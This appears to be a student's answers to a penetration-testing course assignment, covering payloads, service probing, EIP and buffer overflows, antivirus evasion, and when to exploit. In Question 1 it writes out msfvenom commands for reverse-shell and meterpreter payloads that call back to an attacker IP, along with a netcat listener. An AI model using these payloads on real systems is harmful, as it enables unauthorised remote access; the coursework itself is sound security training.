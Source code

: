 
*by Vaughn Valle*
## Part 1

### Question 1
#### a)
For attacking the x86 Linux target: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.31.33.33 LPORT=4444 -f elf`. I chose reverse TCP shell because it initiates a connection from the target back to your machine, bypassing simple NAT configurations. You'll need to start a listener with `nc -lvp 4444`, transfer the payload to the target, make it executable, and execute it.
#### b)
With the target behind a firewall blocking incoming connections, we can use a payload that leverages allowed outbound connections on common ports like HTTP/HTTPS: `msfvenom -p linux/x86/meterpreter/reverse_https LHOST=172.31.33.33 LPORT=443 -f elf`. Port 443 is typically allowed for outbound traffic.
### Question 2
For an unknown service on an uncommon port, I would first interact with it directly using netcat (`nc target_ip port`) to observe its behavior and input handling. I'd send various protocol handshakes to identify the service, look for version banners, try basic fuzzing techniques, and document any abnormal responses that might indicate vulnerabilities.

### Question 3
EIP (Extended Instruction Pointer) is a register in x86 architecture that points to the next instruction to be executed. It controls program flow by determining which code runs next. This is critical for exploitation because overwriting EIP allows redirecting execution to arbitrary code like shellcode, which is the foundation of buffer overflow attacks.
### Question 4
Antivirus works through signature-based detection (matching against known patterns), heuristic analysis (identifying suspicious behaviors), and sandbox execution (isolating and observing file behavior). Evasion techniques include: encoding/encryption to avoid signature detection; obfuscation to change code structure while maintaining functionality; polymorphic code that automatically modifies itself; process injection to hide in legitimate processes; in-memory execution to avoid disk writes; and timestomping to alter file metadata.
### Question 5
Reasons to exploit vulnerabilities during penetration testing: demonstrating real impact beyond theoretical findings; validating vulnerabilities and eliminating false positives; uncovering deeper privilege escalation paths; creating realistic attack scenarios for incident response training; and testing the effectiveness of detection and prevention security controls.
### Question 6
Reasons not to exploit vulnerabilities: risk of system instability or service disruption in production environments; legal liability if exploitation exceeds scope; potential violation of compliance requirements; time constraints when other testing priorities exist; sufficient evidence already exists without exploitation; and client specifically prohibits exploitation in the rules of engagement.

## Part 2 – Technical
